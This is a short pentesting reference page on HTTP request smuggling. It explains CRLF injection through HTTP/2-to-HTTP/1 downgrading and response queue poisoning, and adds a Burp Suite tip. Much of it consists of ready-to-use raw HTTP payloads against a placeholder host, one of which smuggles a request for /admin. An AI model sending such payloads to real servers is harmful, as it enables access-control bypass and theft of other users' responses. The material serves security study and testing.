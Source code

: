 ## <mark style="color:yellow;">Request smuggling via CRLF injection</mark> <a href="#request-smuggling-via-crlf-injection" id="request-smuggling-via-crlf-injection"></a>

In HTTP/2 messages `\r\n` no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split. when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers.

E.g. with **H2.TE**

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
foo: \r\nTransfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

{% hint style="info" %}
**Note**: to inject newlines into HTTP/2 headers, in burp use the Inspector to drill down into the header, then press the `Shift + Return` keys.
{% endhint %}

## <mark style="color:yellow;">Response queue poisoning</mark>

<details><summary>Theory (in short)</summary></details>

This attack can occur through HTTP/1 request smuggling or HTTP/2 downgrading.

You need to smuggle a complete request.

With this technique you can steal other users' responses.

**(CL)**

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
